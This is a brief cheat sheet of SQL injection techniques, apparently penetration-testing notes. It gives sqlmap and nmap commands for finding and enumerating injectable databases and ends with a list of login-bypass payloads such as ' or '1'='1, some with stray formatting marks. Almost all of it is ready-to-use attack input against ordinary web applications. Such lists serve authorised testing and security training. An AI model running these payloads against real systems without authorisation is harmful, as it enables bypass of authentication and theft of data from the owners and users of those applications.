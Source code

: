 [BurpSuite — sniper/cluster bomb](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types "https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types")

### SQL Injection

- [sqlmap](https://www.kali.org/tools/sqlmap/ "https://www.kali.org/tools/sqlmap/")

    ```shell
    sqlmap -u <url> --dbs
    ```

- Enum using nmap

    ```
    nmap -sV --script=http-sql-injection <target>
    ```

- Using jsql

- Capture the request using burp suite, and save the request in a file.

- `sqlmap -r request.txt`

- Crawl a page to find sql-injections

    ```
    sqlmap -u http://example.com --crawl=1
    ```

- <http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet>

- Login bypass

    `‘or 1=1- -`

    `‘ or ‘1’=1`

    `‘ or ‘1’=1 - -`

    `‘–`

    `' or '1'='1`

    `-'`

    `' '`

    `'&'`

    `'^'`

    `'*'`

    `' or ''-'`

    `' or '' '`

    `' or ''&'`

    `' or ''^'``

    `' or ''*'
